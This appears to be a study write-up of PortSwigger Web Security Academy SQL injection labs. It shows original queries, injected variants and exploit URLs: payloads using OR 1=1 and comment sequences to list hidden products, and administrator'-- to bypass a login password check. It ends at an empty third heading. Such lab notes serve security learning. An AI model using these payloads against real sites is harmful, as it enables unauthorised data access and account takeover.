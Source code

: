 #Red 
## SQL Injection 1
### Analysis
#### Original Query:

```sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1`
```

-  This query selects all products from the `products` table where the `category` is 'Gifts' and the product is `released`.

---
#### Injected Query 1:

```sql
SELECT * FROM products WHERE category = 'Gifts' --' AND released = 1
```

- The `--` sequence is used to comment out the rest of the SQL query.
- The `AND released = 1` part is ignored, potentially displaying all products in the 'Gifts' category, regardless of their release status.

---
#### Injected Query 2:

```sql
SELECT * FROM products WHERE category = 'Gifts' OR 1=1 --' AND released = 1
```

- The condition `OR 1=1` is always true.
- Since `1=1` is always true, the query returns all products, not just those in the 'Gifts' category or those that are released.

---
### Example of Exploit
```
https://0a9e009b03fe6a7d80663a5b004a0029.web-security-academy.net/filter?category=Gift%27+OR+1=1--
```
- Explanation: Injects `Gift' OR 1=1--` into the `category` parameter, making the query always true and returning all products.

---

## SQL Injection 2

### Analysis
#### Original Query:
```sql
SELECT firstname FROM users WHERE username='admin' AND password='admin'
```
- **Description:** Retrieves the `firstname` of the user with `username='admin'` and `password='admin'`.

---
#### Injected Query 1:
```sql
SELECT firstname FROM users WHERE username='' AND password='admin'
```
- **Explanation:** Checks for a user with an empty username. Likely returns no results.

---
#### Injected Query 2:
```sql
SELECT firstname FROM users WHERE username='admin'--' AND password='admin'
```
- **Explanation:** The `--` sequence comments out the rest of the query, effectively checking only for `username='admin'`. Bypasses the password check.

---
#### Injected Query 3:
```sql
SELECT firstname FROM users WHERE username='administrator'--' AND password='admin'
```
- **Explanation:** Similar to Injected Query 2 but uses 'administrator' as the username. If 'administrator' is valid, it bypasses the password check and returns the `firstname`

---
### Example of Exploit

- **Vulnerable URL:**
```
https://example.com/login?username=administrator'--&password=admin
```
- **Explanation:** The payload `administrator'--` in the username parameter bypasses the password check, returning the `firstname` of 'administrator'.

---

## SQL Injection 3
### Analysis
